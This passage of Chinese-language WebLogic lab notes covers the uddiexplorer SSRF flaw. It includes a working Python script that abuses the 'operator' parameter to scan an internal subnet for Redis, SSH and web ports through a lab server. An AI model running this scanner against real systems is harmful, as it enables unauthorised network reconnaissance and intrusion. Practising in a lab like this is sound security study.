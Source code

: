 

一个非http的协议则会返回`did not have a valid SOAP`，不存活的主机就是`No route to host`

访问redis服务时

![](weblogic漏洞练习\9.png)



**攻击内网redis**

一个简单的内网扫扫描

```python
import requests
url = "http://192.168.85.133:7001/uddiexplorer/SearchPublicRegistries.jsp"

ports = [6378,6379,22,25,80,8080,8888,8000, 7001, 7002]
for i in range(1,255):
	for port in ports:
		params = dict(
			rdoSearch = "name",
			txtSearchname = "sdf",
			selfor = "Business+location",
			btnSubmit = "Search",
			operator = "http://172.23.0.{}:{}".format(i,port))
		try:
			r = requests.get(url, params=params, timeout = 3)
		except:
			pass
        
		if 'could not connect over HTTP to server' not in r.text and 'No route to host' not in r.text:
			print('[*] http://172.23.0.{}:{}'.format(i,port))
		else:
			pass#print('[-] http://172.23.0.{}:{}'.format(i,port))
```
